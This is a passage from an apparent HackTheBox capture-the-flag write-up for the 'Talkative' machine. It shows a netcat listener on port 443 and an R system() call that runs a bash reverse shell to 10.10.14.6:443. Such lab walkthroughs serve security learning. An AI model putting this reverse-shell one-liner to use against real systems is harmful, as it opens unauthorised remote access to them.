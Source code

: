 - **Setup a netcat listener:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.10|16:21:58(HKT)]
└> nc -lnvp 443
listening on [any] 443 ...
```

- **Send the reveres shell payload:** (Generated from [revshells.com](https://www.revshells.com/))

```r
output <- system("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1'", intern = TRUE)
print(output)
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Talkative/images/Pasted%20image%2020230810162305.png)
